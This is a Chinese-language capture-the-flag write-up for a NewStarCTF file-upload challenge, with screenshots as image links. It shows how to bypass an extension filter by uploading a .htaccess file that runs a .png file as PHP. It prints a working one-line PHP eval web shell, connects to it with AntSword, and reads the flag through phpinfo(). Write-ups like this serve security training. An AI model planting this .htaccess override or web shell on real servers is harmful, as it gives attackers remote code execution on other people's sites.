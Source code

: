 # Week5 Give me your photo PLZ 200

## 0、知识点与工具

>   文件上传

>   php`.htaccess`文件

>   burpsuite



## 1、分析

>   打开题目的网页，页面非常的简洁直观
>
>   页面只有一个文件上传，查看源代码也没发现什么
>
>   测试上传一些文件，可以发现`.php、phtml`等一些常规的后缀会被检测
>
>   尝试上传`.user.ini、.htaccess`文件，发现`.haccess`可以上传成功

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221214143257.png)

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221214143737.png)

## 2、解题

>   由于可以上传成功`.htaccess`文件,所以`.htaccess`文件内容如下

```php
<FilesMatch "1xin.png">
SetHandler application/x-httpd-php
</FilesMatch>
```

>   然后准备一个名称为`1xin.png`的图片，内容如下，然后上传

```php
<?php
@eval($_POST['shell']);
?>
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221214144100.png)

>   上传成功，然后访问这个图片，图片路径为`/upload/1xin.png`
>
>   虽然没有输出东西，但是图片中的php代码已经执行

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/202212141442966.png)

>   然后打开蚁剑连接php后门

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221214144426.png)

>   然后右键文件管理，进如到网站根目录，可以找到一个`flag`文件 ，然后打开

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221214144556.png)

>   这里告诉我们flag是在env环境中

>   修改`.htaccess`文件重新上传图片，新建一个`2xin.png`内容为显示环境

```php
<FilesMatch "2xin.png">
SetHandler application/x-httpd-php
</FilesMatch>
```

```php
<?php
phpinfo();
?>
```

>   上传成功后访问图片路径，在`Environment`中找到`flag`

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/202212141450743.png)

